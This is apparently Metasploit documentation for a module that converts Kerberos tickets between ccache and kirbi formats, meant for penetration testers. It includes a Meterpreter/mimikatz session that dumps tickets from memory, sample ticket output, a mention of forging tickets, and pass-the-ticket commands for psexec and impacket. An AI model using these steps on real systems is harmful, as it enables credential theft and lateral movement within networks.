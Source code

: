 ## Converting Kerberos Tickets

The `auxiliary/admin/kerberos/ticket_converter` module is used to convert from a ccache file format to the kirbi file format and vice versa.
The main reason you may want to convert between these file types is for use in different tools.
For example mimikatz will create tickets for you in the kirbi format but to use that in another tool
like Metasploit or Impacket you need to convert it to the ccache format first.

## Acquiring tickets

Kerberos tickets can be acquired from multiple sources. For instance:

- Retrieved directly from the KDC with the `get_ticket` module
- Forged using the `forge_ticket` module after compromising the krbtgt or a service account's encryption keys
- Extracted from memory using Meterpreter and mimikatz:

```msf
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > kiwi_cmd "sekurlsa::tickets /export"

Authentication Id : 0 ; 1393218 (00000000:00154242)
Session           : Network from 0
User Name         : DC3$
Domain            : DEMO
Logon Server      : (null)
Logon Time        : 1/12/2023 9:11:00 PM
SID               : S-1-5-18

	 * Username : DC3$
	 * Domain   : DEMO.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?
	 [00000000]
	   Start/End/MaxRenew: 1/12/2023 7:41:41 PM ; 1/13/2023 5:37:45 AM ; 1/1/1601 12:00:00 AM
	   Service Name (02) : LDAP ; DC3 ; @ DEMO.LOCAL
	   Target Name  (--) : @ DEMO.LOCAL
	   Client Name  (01) : DC3$ ; @ DEMO.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000012 - aes256_hmac
	     ab64d555f18de6a3262d921e6dc75dcf884852f551db3114f7983dbaf276e1d6
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 7	[...]
====================
Base64 of file : [0;154242]-1-0-40a50000-DC3$@LDAP-DC3.kirbi
====================
doQAAAYXMIQAAAYRoIQAAAADAgEFoYQAAAADAgEWooQAAAS2MIQAAASwYYQAAASq
MIQAAASkoIQAAAADAgEFoYQAAAAMGwpBREYzLkxPQ0FMooQAAAAmMIQAAAAgoIQA
AAADAgECoYQAAAARMIQAAAALGwRMREFQGwNEQzOjhAAABFcwhAAABFGghAAAAAMC
... etc...
====================
```

Note that tools often Base64 encode the Kirbi content to display to the user. However the `inspect_ticket` module expects
the input file to be in binary format. To convert base64 strings to binary files:

```
# Linux
cat ticket.b64 | base64 -d > ticket.kirbi

# Mac
cat ticket.b64 | base64 -D > ticket.kirbi

# Powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/ticket_converter`
3. Do: `set InputPath /path/to/ccache/or/kirbi/file`
4. Do: `set OutputPath /path/to/save/your/converted/file`
5. Do: `run`
6. You should see output similar to:
   ```
   [*] [2022.12.16-12:52:56] Converting from ccache to kirbi
   [*] [2022.12.16-12:52:56] File written to <OutputPath>
   [*] Auxiliary module execution completed
   ```
7. Your converted ticket which will have been stored at `OutputPath`
8. Example usage in Metasploit:
   ```
   use windows/smb/psexec
   run rhost=192.168.123.13 username=Administrator domaincontrollerrhost=192.168.123.1 smb::auth=kerberos smb::rhostname=host.demo.local smbdomain=demo.local smbkrb5ccname=/path/to/ccache/ticket 
   ```
9. Example usage in impacket:
   ```
   export KRB5CCNAME=/path/to/ccache/ticket
   python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
   ```
10. You may use the `inspect_ticket` module to prints the contents of the ccache/kirbi file:
   `use auxiliary/admin/kerberos/inspect_ticket`

## Scenarios

### You have a ccache file

If you have a ccache file, for example by forging it using the `auxiliary/admin/kerberos/forge_ticket` module,
but need a file in the kirbi format which is commonly used by mimikatz.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```msf
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.ccache outputpath=metasploit_ticket.kirbi

[*] [2023.01.05-17:01:02] Converting from ccache to kirbi
[*] [2023.01.05-17:01:02] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.kirbi
[*] Auxiliary module execution completed
```

### You have a kirbi file

The other scenario is if you have a kirbi file, for example tools such as mimikatz will give you tickets in the kirbi format,
and you need a ccache for use with another tool such as Metasploit and Impacket.

The steps are exactly the same for a kirbi file as they are for a ccache as Metasploit will automatically detect the input file type.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```msf
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.kirbi outputpath=metasploit_ticket.ccache

[*] [2023.01.05-17:01:39] Converting from kirbi to ccache
[*] [2023.01.05-17:01:39] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.ccache
[*] Auxiliary module execution completed
```
